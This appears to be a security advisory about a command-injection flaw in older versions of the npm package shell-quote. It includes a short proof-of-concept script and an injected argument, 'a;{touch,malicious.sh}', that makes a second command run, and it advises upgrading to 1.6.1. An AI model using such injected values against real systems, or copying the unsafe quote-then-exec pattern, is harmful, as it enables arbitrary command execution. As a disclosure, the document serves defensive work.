 ## Overview
[`shell-quote`](https://www.npmjs.com/package/shell-quote) is an npm package used to quote and parse shell commands. 
The `quote` function does not properly escape the following special characters `<`, `>`, `;`, `{`, `}` , and as a result can be used by an attacker to inject malicious shell commands or leak sensitive information.

## Shell command injection proof of concept
Consider the following `poc.js` application

```javascript
var quote = require('shell-quote').quote;
var exec = require('child_process').exec;

var userInput = process.argv[2];

var safeCommand = quote(['echo', userInput]);

exec(safeCommand, function (err, stdout, stderr) {
  console.log(stdout);
});
```

Running the following command will not only print the character `a` as expected, but will also run the another command, i.e `touch malicious.sh`

```bash
$ node poc.js 'a;{touch,malicious.sh}'
```

## Remediation
Upgrade `shell-quote` to version 1.6.1 or greater.

## References
- https://github.com/substack/node-shell-quote/compare/1.6.0...1.6.1

